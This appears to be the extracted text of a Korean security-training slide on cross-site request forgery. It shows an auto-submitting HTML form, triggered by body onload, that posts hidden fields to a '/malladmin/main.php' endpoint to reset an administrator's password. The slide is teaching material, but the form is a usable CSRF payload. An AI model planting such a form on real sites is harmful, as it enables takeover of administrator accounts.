

2-4
# CSRF
CSRF 게시물 작성
<body onload="document.csrf.submit();">
<form name="csrf"
action=“host 주소”
/malladmin/main.php" method="POST">
<input type="hidden"
name="ID" value="admin"> //관리자이름
<input type="hidden"
name="PASS" value="test1324"> // 바꿀 패스워드
<input type="hidden"
name="PASS1" value="test1324">  //바꿀 패스워드 확인
<input type="hidden"
name="menushow" value="menu1">
……
38